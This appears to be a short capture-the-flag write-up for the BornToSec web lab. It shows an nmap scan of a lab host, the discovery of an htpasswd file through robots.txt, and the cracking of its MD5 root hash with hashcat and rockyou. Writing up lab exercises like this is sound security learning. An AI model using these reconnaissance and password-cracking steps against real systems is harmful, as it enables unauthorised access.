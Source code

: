 <!-- Depends on network -->
nmap -v -A -T4 192.168.56.103

We find 2 directories:
```shell
	PORT   STATE SERVICE VERSION
	80/tcp open  http    nginx 1.4.6 (Ubuntu)
	|_http-favicon: Unknown favicon MD5: E7D08792AE6EC9DBBF3CEBFB48EE4057
	| http-methods:
	|_  Supported Methods: GET HEAD POST
	| http-robots.txt: 2 disallowed entries
	|_/whatever /.hidden
	|_http-server-header: nginx/1.4.6 (Ubuntu)
	|_http-title: BornToSec - Web Section
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
In whatever there is a htpasswd file that contain:
root:437394baff5aa33daa618be47b75cb49

https://httpd.apache.org/docs/2.4/fr/programs/htpasswd.html
https://defendtheweb.net/discussion/1159-bypassing-htaccesshtpasswd-based-authentication

It looks like MD5, we can try to bruteforce it with hashcat and rockyou:
```shell
hashcat -m 0 -a 0 hash /<PATH>/rockyou.txt --force
```
We find:
437394baff5aa33daa618be47b75cb49:qwerty123@
We can't connect to this in login page but there is an admin connect page
